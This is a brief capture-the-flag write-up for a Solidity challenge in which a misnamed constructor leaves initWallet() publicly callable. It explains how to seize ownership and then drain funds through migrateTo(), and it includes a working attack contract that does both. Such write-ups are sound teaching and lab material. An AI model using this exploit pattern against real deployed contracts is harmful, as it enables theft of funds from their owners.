 ## WriteUp

The challenge1.sol smart contract is vulnerable. The constructor was not set well. Instead of constructor, it is a callable function.

There is two step :

# Step 1 : 

Call the function initWallet() to gain the owner rights.

# Step 2 : 

Call the function migrateTo("youraddress") to steal his money.




# AttackContract

With the blockchain running, it can be solve with this smart contract 


```
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;
import "./chall1.sol";

contract Attack {
    Challenge1 public victim;
    mapping(address => uint256) balances;

    constructor(address _victimAddress)payable {
        victim = Challenge1(_victimAddress);
    }

    function beginAttack() external payable {
        victim.initWallet();
        victim.migrateTo(0x723c3E5417cae4425Ae95c2E94E80163Ae3B8101);
    }
    function deposit() external payable {
        balances[msg.sender] += msg.value;
    }

}
```


First deploy this contract in remix with the address of the challenge that the website give you.

Then call beginAttack().

The address in migrateTo() is yours.
